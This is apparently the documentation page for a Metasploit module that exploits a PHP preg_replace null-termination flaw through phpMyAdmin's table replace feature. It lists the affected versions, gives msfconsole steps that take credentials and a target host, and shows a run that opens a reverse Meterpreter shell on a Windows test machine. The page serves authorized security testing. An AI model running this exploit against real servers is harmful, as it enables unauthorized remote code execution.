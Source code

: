 ## Description

This module exploits a vulnerability in a PHP's `preg_replace()` function
that is used by phpMyAdmin's replace table feature.


## Vulnerable Application

PHP versions before 5.4.6 allow null termination of the `preg_replace` string parameter.

phpMyAdmin versions 4.6.x (prior to 4.6.3), 4.4.x versions (prior to 4.4.15.7),
and 4.0.x versions (prior to 4.0.10.16) are affected.


## Options

### DATABASE
This option specifies the database the module will use
when creating a new table as part of the exploit.


## Verification Steps

- [ ] Install vulnerable phpMyAdmin application
- [ ] Create database through phpMyAdmin application
- [ ] `./msfconsole`
- [ ] `use exploit/multi/http/phpmyadmin_null_termination_exec`
- [ ] `set USERNAME <username>`
- [ ] `set PASSWORD <password>`
- [ ] `set DATABASE <database>`
- [ ] `set rhost <rhost>`
- [ ] `run`


## Scenarios

### Tested on Windows 7 x64 running phpMyAdmin 4.3.0 on PHP 5.3.8

```
msf > use exploit/multi/http/phpmyadmin_null_termination_exec
msf exploit(multi/http/phpmyadmin_null_termination_exec) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf exploit(multi/http/phpmyadmin_null_termination_exec) > set database <database>
database => <database>
msf exploit(multi/http/phpmyadmin_null_termination_exec) > run

[*] Started reverse TCP handler on 172.22.222.177:4444 
[*] Sending stage (37775 bytes) to 172.22.222.122
[*] Sleeping before handling stage...
[*] Meterpreter session 2 opened (172.22.222.177:4444 -> 172.22.222.122:49169) at 2018-06-18 07:28:19 -0500
[-] 172.22.222.122:80 - Failed to remove the table 'spkkw'

meterpreter > sysinfo
Computer    : WIN-V438RLMESAE
OS          : Windows NT 6.1 build 7601 (Windows 7 Business Edition Service Pack 1) i586
Meterpreter : php/windows
```
